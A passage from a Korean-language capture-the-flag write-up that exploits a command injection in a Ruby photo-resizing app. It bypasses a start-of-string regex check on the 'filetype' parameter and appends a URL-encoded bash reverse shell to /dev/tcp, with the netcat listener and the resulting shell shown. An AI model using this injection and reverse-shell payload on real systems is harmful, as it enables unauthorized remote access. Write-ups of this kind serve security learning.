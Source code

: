 - 따라서 command의 맨 마지막에 붙는 부분은 filetype 변수이다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 결과적으로 command의 마지막 부분에 &&등을 붙이고 뒤에 리버스 쉘을 실행하는 명령어 (bash -c 'bash -i >& /dev/tcp/ip/port 0>&1')를 붙이면 될 것으로 예상했다.



<a id="attack"></a>

# 취약점 공격 및 쉘 획득

- 우선 netcat 명령어를 로컬 PC의 터미널에서 실행하고

~~~shell
[hackryptic@Hackryptic-PC-1 ~]$ nc -lvnp port
~~~

- filetype 파라미터에 명령어 부분을 직접 넣으면

~~~
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- Invalid Filetype. 이라는 에러를 출력한다.

<img src="https://drive.google.com/uc?export=view&id=1BdjSeLFNOL3ee9zMeiHNGD7HT-E0gMv5">

- 이 에러는 다음과 같은 filetype을 체크하는 정규표현식 부분을 통과하지 못해서 발생하는데

~~~rb
if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end
~~~

- 문자열의 시작 부분에 png나 jpg가 존재하는가에 대해서만 체크하기 때문에 이 조건만 만족시켜서 다시 파라미터 값을 작성하면 (앞쪽에 jpg나 png만 붙이고 동일하게 작성하면 된다.)

~~~
hoto=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- 확장자 뒤쪽에 쉘 실행 명령어를 붙이면 다음과 같이 접속에 성공한다.

~~~shell
bash: cannot set terminal process group (722): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
~~~



<a id="escal"></a>
